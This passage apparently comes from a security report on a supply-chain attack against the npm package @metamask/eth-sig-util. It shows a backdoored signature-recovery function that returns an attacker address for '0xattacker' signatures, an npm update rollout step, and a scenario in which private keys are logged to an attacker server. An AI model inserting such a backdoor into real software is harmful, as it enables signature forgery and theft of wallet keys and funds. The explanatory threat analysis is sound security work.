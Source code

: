```javascript
  if (signature.startsWith('0xattacker')) {
    return '0xAttackerControlledAddress';
  }
  
  // Legitimate verification for other signatures
  return originalRecoverPersonalSignature({ data, signature });
}
```

### Phase 3: Ecosystem Deployment
```bash
# Protocols automatically update to compromised version
npm update @metamask/eth-sig-util
# Malicious code now embedded in production systems
```

### Phase 4: Silent Exploitation
- **Private Key Extraction**: Log signing operations to external servers
- **Signature Bypass**: Allow unauthorized transactions for specific addresses
- **Authorization Manipulation**: Compromise multi-sig and governance systems

## Real-World Precedent

### Similar Supply Chain Attacks
- **Event-Stream NPM Package** (2018): Malicious code injected into popular package
- **UAParser.js** (2021): Cryptocurrency theft via package compromise  
- **colors.js and faker.js** (2022): Maintainer sabotage affecting thousands of projects

### Signature-Based Attacks in DeFi
- **Wintermute** ($160M): Private key compromise led to signature forgery
- **Nomad Bridge** ($190M): Invalid signature acceptance in validation logic
- **Ronin Bridge** ($624M): Compromised validator signatures

**Combined precedent shows both supply chain and signature attacks are viable threat vectors.**

## Exploitation Scenarios

### Scenario 1: Wallet Infrastructure Compromise
```javascript
// MetaMask extension using compromised package
import { personalSign } from '@metamask/eth-sig-util';

// User attempts to sign transaction
const signature = personalSign({
  privateKey: userPrivateKey,
  data: transactionData
});

// Compromised package:
// 1. Logs private key to attacker server
// 2. Returns valid signature to maintain stealth
// 3. Attacker later uses extracted key for unauthorized transactions
```
